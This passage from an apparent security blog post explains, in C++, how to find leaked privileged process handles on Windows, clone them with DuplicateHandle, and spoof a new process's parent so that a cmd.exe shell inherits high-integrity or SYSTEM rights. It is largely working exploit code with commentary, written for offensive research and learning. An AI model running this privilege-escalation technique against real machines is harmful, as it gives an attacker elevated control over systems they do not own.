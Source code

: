 ```c++
            vSysHandle.push_back(sysHandle); // save the interesting SYSTEM_HANDLE
        }
    }  
}
```
  
In this block of code we start out by defining a `std::vector` called `vSysHandle` which will hold the interesting `SYSTEM_HANDLE`s. After that we start the usual iteration of the data returned by `NtQuerySystemInformation`, only this time we skip the handles held by our current process. We then check the integrity level of the process which holds the handle we are currently analyzing through the helper function  I wrote called `GetTargetIntegrityLevel`. This function basically returns a `DWORD` telling us the integrity level of the token associated with the PID it receives as argument and is adapted from a number of PoCs and MSDN functions available online. 

Once we've retrieved the integrity level of the process we make sure it's less than high integrity, because we are interested in medium or low integrity processes holding interesting handles and we also make sure the `SYSTEM_HANDLE` we are working with is of type process (`0x7`). Checked that, we move to checking the access the handle grants. If the handle is not `PROCESS_ALL_ACCESS` or doesn't hold any of the flags specified, we skip it. Else, we move further, retrieve the PID of the process the handle refers to, and get its integrity level. If it's high integrity or even higher (e.g. SYSTEM) we save the `SYSTEM_HANDLE` in question inside our `vSysHandle` for later (ab)use. 

This, kids, is how you automate leaked privileged handle hunting. Now that we have a vector holding all these interesting handles it's time for the exploit!

### Gaining the upper hand(le)!
We have scanned the haystack and separated the needles from the hay, now what? Well, again [dronesec's blogpost](http://dronesec.pw/blog/2019/08/22/exploiting-leaked-process-and-thread-handles/) details what you can do with each different access, but let's focus on the more common and easy to exploit: `PROCESS_ALL_ACCESS`.

First off, we start by opening the process which holds the privileged handle and subsequently clone said handle.

```c++
DWORD ownerPid = SysHandle.ProcessId;
HANDLE elevatedToken = NULL;
auto hOwner = OpenProcess(PROCESS_DUP_HANDLE, false, ownerPid);
HANDLE clonedHandle;
auto success = DuplicateHandle(hOwner, (HANDLE)sysHandle.Handle, GetCurrentProcess(), &clonedHandle, NULL, false, DUPLICATE_SAME_ACCESS);
```
This is fairly easy and if you skip error control, which you shouldn't skip (right, [h0nus](https://twitter.com/h0nus7)?), it boils down to only a handful of code lines. First you open the process with `PROCESS_DUP_HANDLE` access, which is the least amount of privilege required to duplicate a handle, and then call [`DuplicateHandle`](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-duplicatehandle) on that process, telling the function you want to clone the handle saved in `sysHandle.Handle` (which is the interesting handle we retrieved before) and save it into the current process in the `clonedHandle` variable.

In this way our process is now in control of the privileged handle and we can use it to spawn a new process, spoofing its parent as the privileged process the handle points to, thus making the new process inherit its security context and getting, for example, a command shell.
```c++
STARTUPINFOEXW sinfo = { sizeof(sinfo) };
PROCESS_INFORMATION pinfo;
LPPROC_THREAD_ATTRIBUTE_LIST ptList = NULL;
SIZE_T bytes = 0;
sinfo.StartupInfo.cb = sizeof(STARTUPINFOEXA);
InitializeProcThreadAttributeList(NULL, 1, 0, &bytes);
ptList = (LPPROC_THREAD_ATTRIBUTE_LIST)malloc(bytes);
InitializeProcThreadAttributeList(ptList, 1, 0, &bytes);
UpdateProcThreadAttribute(ptList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &clonedHandle, sizeof(HANDLE), NULL, NULL);
sinfo.lpAttributeList = ptList;
std::wstring commandline = L"C:\\Windows\\System32\\cmd.exe";
```